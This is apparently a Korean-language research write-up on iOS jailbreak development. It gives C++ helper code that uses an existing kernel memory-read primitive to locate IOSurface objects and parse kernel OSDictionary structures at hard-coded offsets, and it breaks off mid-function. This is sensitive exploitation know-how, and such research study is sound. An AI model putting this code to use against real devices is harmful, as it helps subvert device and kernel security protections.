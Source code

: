 ![image.png](pics/image%202.png)

코드로 구현하면, 아래와 같다.

```cpp
uint64_t port_to_kobject(mach_port_t port)
{
    uint64_t ipc_port = find_port(port);
    uint64_t kobject = kread64(ipc_port + 0x68);    // 0x68 = p/x offsetof(ipc_port, kdata.kobject)
    return kobject;
} 

uint64_t userdict_from_IOSurface(void) {
	uint64_t surfRoot = port_to_kobject(IOSurfaceRootUserClient);
	// INFO("surfRoot: 0x%llx\n", surfRoot);

	// p/x offsetof(IOSurfaceRootUserClient, IOSurfaceClientArray) = 0x118;
	uint64_t surfClients = kread64(surfRoot + 0x118);
	// INFO("surfClients: 0x%llx\n", surfClients);

	uint64_t surfClient = kread64(surfClients + sizeof(uint64_t) * IOSurface_id);
	// INFO("surfClient: 0x%llx\n", surfClient);

	// p/x offsetof(IOSurfaceClient, IOSurface) = 0x40;
	uint64_t surface = kread64(surfClient + 0x40);
	// INFO("surface: 0x%llx\n", surface);

	// p/x offsetof(IOSurface, UserspaceValueDictionary) = 0xe8
	uint64_t userspaceValueDicts = kread64(surface + 0xe8);

	if(userspaceValueDicts != 0) return userspaceValueDicts;

	return 0;
}
```

properties(=UserspaceValueDictionary) 필드는 OSDictionary 타입이다.

pattern-f 씨가 구현한 kernel_fetch_dict 함수로 파싱한다음에는 

```cpp
//Thanks pattern-f, https://github.com/pattern-f/TQ-pre-jailbreak/blob/main/mylib/k_utils.c#L173
//found OSDictionary offsets from kernelcache.development.n71_151b3_6s
struct kOSDict *kernel_fetch_dict(uint64_t dict_addr)
{
    char obj[0x28];
    kreadbuf(dict_addr, obj, sizeof(obj));
    uint32_t cap = *(uint32_t *)(obj + 0x18); // 0x18 = p/x offsetof(OSDictionary, capacity)
    struct kOSDict *dict;
    size_t alloc_size = sizeof(*dict) + cap * (sizeof(struct kDictEntry) + sizeof(char *) + 256);
    dict = (struct kOSDict *)malloc(alloc_size);
    dict->self_addr = dict_addr;
    dict->cap = cap;
    dict->count = *(uint32_t *)(obj + 0x14); // 0x14 = p/x offsetof(OSDictionary, count)
    dict->items_addr = kread64(dict_addr + 0x20); // 0x20 = p/x offsetof(OSDictionary, dictionary)
    char *ptr = dict->data;
```